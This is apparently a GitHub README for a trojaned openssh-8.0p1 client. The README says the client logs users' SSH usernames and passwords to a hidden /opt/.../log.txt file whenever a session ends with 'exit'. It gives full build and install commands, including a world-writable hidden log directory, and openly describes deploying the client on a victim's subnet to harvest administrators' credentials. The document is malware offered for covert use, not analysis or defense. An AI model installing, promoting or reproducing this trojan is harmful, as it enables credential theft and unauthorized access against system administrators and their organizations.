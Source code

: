 # OPENSSH 8 TROJAN
This is trojanned version of openssh-8.0p1, the ssh client will log ssh username and ssh password into /opt/.../log.txt

# INSTALLATION
sudo mkdir -p /opt/...
sudo chmod 777 /opt/...

git clone https://github.com/bluedragonsecurity/openssh8_trojanned.git
cd openssh8_trojanned
./configure
make
sudo make install

# WHAT THE HELL IS THIS ?
this trojanned version of openssh can be installed on a victim's subnet which has many ssh accesses. 
Everytime the administrator using the ssh client and finish his session using **exit** command, the ssh client will log his username and password at /opt/.../log.txt.
The "exit" command is the trigger to log username and password


